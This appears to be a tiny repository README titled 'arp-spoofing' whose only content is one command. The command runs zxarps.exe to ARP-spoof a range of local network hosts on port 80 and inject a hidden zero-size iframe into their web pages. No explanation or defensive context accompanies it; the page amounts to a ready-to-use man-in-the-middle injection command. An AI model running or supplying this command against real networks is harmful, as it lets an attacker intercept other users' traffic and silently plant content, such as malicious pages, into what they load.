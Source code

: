 # arp-spoofing
arp-spoofing

zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.99 -port 80 -insert "<iframe src='xx' width=0 height=0>"
